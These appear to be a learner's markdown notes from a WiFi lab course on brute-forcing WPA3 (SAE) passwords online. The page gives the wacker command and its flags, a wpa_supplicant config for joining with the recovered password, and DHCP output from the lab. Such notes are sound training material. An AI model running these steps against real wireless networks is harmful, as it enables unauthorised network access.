

# Online Bruteforce Attack
Even though [SAE](../../networking/wifi/WPA3.md#SAE) is resistant to brute force attacks, they can still be attempted. 
## Wacker
[`wacker`](https://github.com/blunderbuss-wctf/wacker) is a tool that performs online brute force attacks against [WPA3](../../networking/wifi/WPA3.md) networks using the `wpa_supplicant` tool:
```bash
./wacker.py --wordlist <DICTIONARY> --ssid <ESSID> --bssid <BSSID> --interface <INTERFACE> --freq <FRECUENCIA_CANAL>
```
- `--wordlist`: path to a wordlist file to be used as the dictionary for brute forcing
- `--ssid`: the SSID of the target network
- `--bssid`: the BSSID of the target AP
- `--interface`: the interface to use
- `--freq`: the channel frequency of the target network
### Frequency
To figure out the frequency of a given channel, you can refer to the table on [Wikipedia](https://en.wikipedia.org/wiki/List_of_WLAN_channels):

Or, you can use the command line on linux to determine it:
```bash
sudo iwlist wlan0 frequency | grep 'Channel 12 :'
```
### Running wacker
When you run command and it works, the output should look something like this:

### Connecting to the network 
Once you get the password, you can connect with `wpa_supplicant` by creating a conf file with the password:
`online_brute.conf`:
```bash
network={
        ssid="wifi-management"
        psk="<PASSWORD>"
        key_mgmt=SAE
        ieee80211w=2
}
```
And then running the following command:
```bash
sudo wpa_supplicant -i wlan2 -c ./online_brute.conf
```
Once connected, make sure you request an IP address from [DHCP](../../networking/protocols/DHCP.md):
```bash
root@WiFiChallengeLab:~/confs# dhclient wlan2 -v
Internet Systems Consortium DHCP Client 4.4.3-P1
Copyright 2004-2022 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Corrupt lease file - possible data loss!
Listening on LPF/wlan2/b0:72:bf:b0:78:48
Sending on   LPF/wlan2/b0:72:bf:b0:78:48
Sending on   Socket/fallback
DHCPDISCOVER on wlan2 to 255.255.255.255 port 67 interval 6
DHCPOFFER of 192.168.14.53 from 192.168.14.1
DHCPREQUEST for 192.168.14.53 on wlan2 to 255.255.255.255 port 67
DHCPACK of 192.168.14.53 from 192.168.14.1
bound to 192.168.14.53 -- renewal in 42071 seconds.
```
## Airgeddon
Alternatively, you can use `airgeddon` with the `wpa3_online_attack` plugin. You can find the plugin [here](https://github.com/OscarAkaElvis/airgeddon-plugins/tree/main/wpa3_online_attack).


> [!Resources]
> - [GitHub - blunderbuss-wctf/wacker](https://github.com/blunderbuss-wctf/wacker)
> - [List of WLAN channels - Wikipedia](https://en.wikipedia.org/wiki/List_of_WLAN_channels)
> - [airgeddon-plugins/wpa3_online_attack at main](https://github.com/OscarAkaElvis/airgeddon-plugins/tree/main/wpa3_online_attack)
> - [Wifi Challenge Academy](https://academy.wifichallenge.com/courses/take/certified-wifichallenge-professional-cwp/texts/57442980-introduction)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.